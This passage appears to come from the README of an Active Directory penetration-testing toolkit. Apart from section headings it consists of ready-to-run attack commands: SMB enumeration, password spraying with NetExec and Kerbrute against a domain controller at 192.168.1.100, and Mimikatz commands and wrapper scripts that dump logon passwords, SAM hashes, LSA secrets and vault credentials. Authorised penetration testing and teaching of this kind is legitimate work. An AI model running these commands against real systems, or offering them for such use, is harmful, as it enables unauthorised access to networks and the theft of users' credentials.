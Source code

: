 **Automated:**
```bash
# Network discovery using PowerShell-based enumeration
./powershell-enumeration.py scan -n 192.168.1.0/24

# Network enumeration using NetExec
./netexec-enumerator.py set username Administrator
./netexec-enumerator.py set password Password123!
./netexec-enumerator.py set target 192.168.1.100
./netexec-enumerator.py enum smb
```

### Password Spraying

**Manual:**
```bash
# NetExec password spraying
netexec smb 192.168.1.100 -u users.txt -p 'Spring2023!' --continue-on-success

# Kerbrute password spraying
kerbrute passwordspray -d contoso.local --dc 192.168.1.100 users.txt 'Spring2023!'
```

**Automated:**
```bash
# Using the toolkit's password spraying functionality
./adpentest-toolkit.py spray -t 192.168.1.100

# Full scan with automated password spraying
./adpentest-toolkit.py full -t 192.168.1.100
```

---

## Credential Harvesting

### Mimikatz (Local System)

**Manual:**
```bash
# Start mimikatz with admin privileges
mimikatz.exe

# Basic credential harvesting commands
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
sekurlsa::dpapi
vault::cred
exit
```

**Automated:**
```bash
# Dump all credentials from local system
./mimikatz-wrapper.py local all

# Dump specific credential types
./mimikatz-wrapper.py local creds
```
